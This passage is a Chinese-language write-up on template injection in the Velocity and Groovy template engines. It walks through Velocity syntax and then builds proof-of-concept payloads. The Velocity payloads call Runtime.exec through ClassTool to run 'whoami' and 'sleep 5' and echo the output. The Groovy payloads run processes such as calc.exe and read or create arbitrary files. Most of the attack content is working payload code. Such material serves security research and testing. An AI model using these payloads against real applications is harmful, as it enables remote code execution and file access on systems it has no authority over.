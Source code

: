 一个简单的模板样例如下：`#`后跟指令，`$`代表变量。set指令用于设置引用的值
```
#set($a = "Velocity")
$a

#if($foo) 
  <strong>Velocity!</strong>
#end

#foreach($customer in $customerList)
    <tr><td>$customer.Name</td></tr>
#end

#include("one.txt")
#parse("me.vm")
```

Velocity并没有专门提及表达式相关内容，在官方文档查找自带的一些对象时，有个目录叫做工具，包含通用工具、视图工具等：https://velocity.apache.org/tools/3.1/tools-summary.html

通用工具中包含了ClassTool`$class`、FieldTool`$field`等。这不禁联想是否满足反射获取对象，进而构造POC。想要调用方法首先要获取对象，在查看官方文档的过程中，ClassTool包含如下一条，可以返回指定类或对象的实例
```
$class.inspect(class/object/string): returns a new ClassTool instance that inspects the specified class or object
```
POC构造：
```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor()

#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

## groovy
Groovy的诞生是作为Java的补充语言而创建的脚本语言，所以语法与Java极其类似，但借鉴了动态语言Ruby、Python、Smalltalk。关于它的一篇论文《A History of the Groovy Programming Language》：https://dl.acm.org/doi/pdf/10.1145/3386326

Groovy的表达式样式也是`${}`。翻看说明目录的时候除了介绍常用的语法（类似Java）发现了一个名为working with IO的工具包：https://docs.groovy-lang.org/latest/html/documentation/#process-management 。包括读写文件、执行外部进程等工具。

（1）执行外部进程。Groovy提供了`'字符串'.execute()`的方式来调用外部进程，那么可以利用此方式来弹计算器
```
${"calc.exe".execute()}
```
（2）读写文件。Groovy支持`new File(baseDir, 'xx.txt')`的方式来操作文件。所以可以采用如下的方式来读取文件或创建文件
```
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```
